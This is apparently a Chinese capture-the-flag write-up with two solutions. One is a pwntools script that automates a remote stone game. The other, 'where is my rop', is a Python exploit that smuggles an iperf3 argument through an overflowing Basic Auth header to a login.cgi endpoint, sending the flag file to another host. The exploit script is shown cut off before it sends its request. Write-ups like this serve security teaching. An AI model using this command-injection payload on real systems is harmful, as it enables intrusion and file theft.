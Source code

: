### stone-game
AI太笨了，写个交互纯玩就好了
``` python
import re

from pwn import context, remote

context.log_level = "debug"

p = remote("1.95.128.179", "3950")

p.sendline()


while 1:
    res = p.recvuntil(b"(space-separated, e.g.: 0 1 0 2 0 0 0):\n").split(
        b"Digital Display Game"
    )[-1]

    if nums := re.findall(r"Segment \d: (.*?) stones".encode(), res):
        p.sendline(b" ".join(nums[:-3]) + b" 0 0 0")

    res = p.recvuntil(b"(space-separated, e.g.: 0 1 0 2 0 0 0):\n").split(
        b"Digital Display Game"
    )[-1]

    if nums := re.findall(r"Segment \d: (.*?) stones".encode(), res):
        p.sendline(b" ".join(nums))

```

## Pwn

### where is my rop
比较容易注意到结合base64解码的一字节溢出，可以实现命令注入，经过一段测试发现iperf3可以带出文件内容，`*_*` 恰好可以匹配到flag，之后从流量里dump即可。
``` python
import requests  
from pwn import *
from base64 import b64encode
def send_login_request(url, auth_token, referer, data='id='+'a'*24):  
    # 请求头  
    headers = {  
        "Authorization": f"Basic {auth_token}",  
    }  

    # 发送 POST 请求  
    response = requests.post(url, headers=headers, data=data)  

    return response  

# 示例调用  
if __name__ == "__main__":  
    # 目标 URL  
    url = "http://61.147.171.105:49921/cgi-bin/login.cgi?reset_password"  
    # url = "http://localhost:8888/cgi-bin/login.cgi?reset_password"  
    
    # Basic Auth 认证的 Base64 编码字符串  
    auth_token = b64encode(b'127.0.0.1:6666 -F /*_*:ccc:'.ljust(0x200, b'\x00') + b'\x09').decode()
    # auth_token = "MTIzOjE2ZmVhZGIzNDg2MmU1OGQwZGY0YmY3ZDQ2OThhOTg2"
    
    # Referer 头字段的值  
    referer = "http://localhost:8888/login.html"
    
```